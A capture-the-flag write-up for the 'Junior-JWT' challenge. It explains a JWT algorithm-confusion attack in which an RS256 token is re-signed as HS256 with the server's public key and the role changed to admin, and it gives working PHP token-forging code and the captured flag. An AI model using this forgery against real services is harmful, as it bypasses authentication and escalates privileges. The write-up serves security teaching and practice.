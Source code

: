 # Junior-JWT

## Description

Just one of [them](http://junior-jwt.peykar.io)!

## Files provided

A zip file containing a PHP page source code. (You can see extracted files in [source](source/) folder in the repo)

## TL;DR

We should change the algorithm to `HS256` and change the role value in jwt to `admin` and sign it with the given public key.

## Writeup

Looking at the source code, we see a class called `JWT` that provides `encode` and `decode` methods and also some helper functions for URL decoding.

Also there is a `main` function that runs on startup. It creates `jwt` cookie with `role: guest` if it's not present.
if The cookie is present it checks the `role` attribute, if the role is equal to `admin` it shows the flag, otherwise it shows the source code.

So we should find a way to modify role value to `admin` in the jwt cookie but we don't have the jwt secret key. So we should go for potential bugs in the jwt methods.

There can be several famous [bugs](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) in jwt custom libraries. The first bug I tried was the `none algorithm`. But at line 40 the decode function checks for the none algorithm, So this is not the solution.

As we see in `main` function, the jwt is signed with `RS256` algorithm by default. RSA uses public and private key (Asymmetric). The JWT is signed using private key and verified using public key. We can see the public key in the source code but we need the private key for signing our modified jwt.

### The Idea

If we could find a way that server verifies the jwt using the same key that is jwt is signed with, we could easily change the role field and sign our jwt using the public key.

In `HS256` algorithm, that is a symmetric algorithm, the jwt should be signed and verified using the same secret key. So, if we change the jwt algorithm to `HS256`, change the `role` value to `admin` and sign it with the public key, the server will also verify the jwt using public key.

## Solution

For creating the payload, we can use the website's source code.

We should just change the main function as below (changing role to `admin` and changing `RS256` to `HS256`):

```
function main()
{

    $publikKey  = '-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEApPRW0nXMoQyN8GzVCHaW
nWyq00omHh/o7AXEJvbpVBk5HTWLt+Zdj1aK1JFWU5lPeMSoXkf7WJiqoGgwVblX
Rq2dSIIaNBFSjomS1Mcw1Tyx+q9Y6CPJGdwAMEMH5uKhGkgV9OrFQcHoozLAvzFl
BneqmTO9+V1FKEuHWHItvdP1em7UiUnZ7JXb13L4IbZVGPNgDVf0GoButIlVo1+T
pMZcBHNV0ndGZg0e6qTCp5m9yMWcH697Rt2FRN4fgJpYBknBs8UrAeCczRkk6037
N+c4IM+St6KZNqg+4ZlRZC+V9zOBSTkrXXN/CXRUiIQMgmyit5zbEpN8PUY6VPzk
zVI9FbkB0nb+Dp04VPRWeeV1IKPZk2DuSOALh9ZacbEQ8Spuua6nxZ5gCSve7TL7
r9xg8ml5zZXAw7l8WoHkyy2ocPy0OL+PWFvUar59epfPUQZmRE08yVrlvy+WXFC2
dbFxD80tPgbcjJbKRGGv1uOx/3Z2HrXHoOslVmV87rgWfxBaJjrSsSY1fKLYJLnk
FKJd6eSLDYzTAczbMiov8F9ovMw4/juWZy2s4QOCdXp7byKOuQUJ+HSiZiNiyjTk
XaA5oGEF/FIxAMRbaEd/YSsE7ASMxS4mhyIAGFvqK8YZ+xqEAbNlT4zK+dAAC3mL
I/VyHBAlgHRxEiRE860DhfcCAwEAAQ==
-----END PUBLIC KEY-----';

    $issuedAt = new DateTimeImmutable();
    $data = [
        "role" => "admin",
        "iat" => $issuedAt->getTimestamp(),
        "nbf" => $issuedAt->getTimestamp()
    ];

    $token = JWT::encode($data, $publikKey, 'HS256');

    echo $token;

}

```

It will print the the JWT payload that we should put in `jwt` cookie and request `GET /` to get the flag.

## Flag

`S4CTF{7h3r3__iS_s733L_a_bUnch3__0u7_th3r3!!!}`
